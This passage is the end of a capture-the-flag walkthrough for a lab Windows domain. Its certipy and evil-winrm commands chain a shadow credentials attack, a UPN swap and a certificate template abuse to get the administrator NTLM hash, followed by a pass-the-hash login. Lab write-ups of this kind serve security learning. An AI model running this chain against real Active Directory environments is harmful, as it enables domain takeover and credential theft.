 ```bash
certipy find -u management_svc -hashes a091c1832bcdd4677c28b5a6a1295584 -dc-ip 10.10.11.41 -vulnerable -enabled -old-bloodhound

```
- ![Pasted image 20250101224245.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250101224245.png?raw=true)
#### Abusing the AD CS 
{{< alert icon="circle-info" >}}
 Note: This requires perfect time coordination and each command execution intervel should not exceed two minutes before executing next command 
{{< /alert >}}

- Lets perform shadow credentials on user `ca_operators` from `management_svc` user, since I have `GenericAll` DACL over it.
- Using shadow technique I got the hash of user `ca_operator`  
```bash
certipy shadow auto -u management_svc@certified.htb -hashes <hashes> -account ca_operator
```
![Pasted image 20250102060054.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250102060054.png?raw=true)
- I changed the user principal to administrator
```bash
certipy account update -u management_svc@certified.htb -hashes <hash> -user ca_operator -upn administrator
```
![Pasted image 20250102011822.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250102011822.png?raw=true)
- Now abuse the template to get administrator pfx
```bash
certipy req -username ca_operator@certified.htb -hashes <hash> -ca certified-DC01-CA -template CertifiedAuthentication
```
![Pasted image 20250102012113.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250102012113.png?raw=true)
{{< alert icon="circle-info" >}} Note: This above step was failing for me with throwing `Netbios timeout` error. When it worked, It gave me the pfx of user `ca_operator`, for a weird reason when I redo all the steps from step one it worked. {{< /alert >}}
- Now I Changed the user principal back to the same
```bash
certipy account update -u management_svc@certified.htb -hashes <hash> -user ca_operator -upn ca_operator@certified.htb
```
- I easily got the administrator NTLM hash from using this command with `administrator.pfx`
```bash
certipy auth -pfx administrator.pfx -domain certified.htb
```
![Pasted image 20250102012703.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250102012703.png?raw=true)
- Then I logged in with Administrator user's NT part of the hash
```bash
evil-winrm -u administrator -H <hash> -i certified.htb
```
- Got the {{< keyword >}} Root flag {{< /keyword >}}
![Pasted image 20250102012907.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250102012907.png?raw=true)

{{< typeit >}} This was a fun box I personally learnt a lot from this box. I hope you enjoyed my walkthrough, Until nextime..... {{< /typeit >}} 

![End](https://media1.tenor.com/m/c2h1smWX3JAAAAAC/talk-to-you-later-ttyl-ttyl-talk-to-you-later.gif)
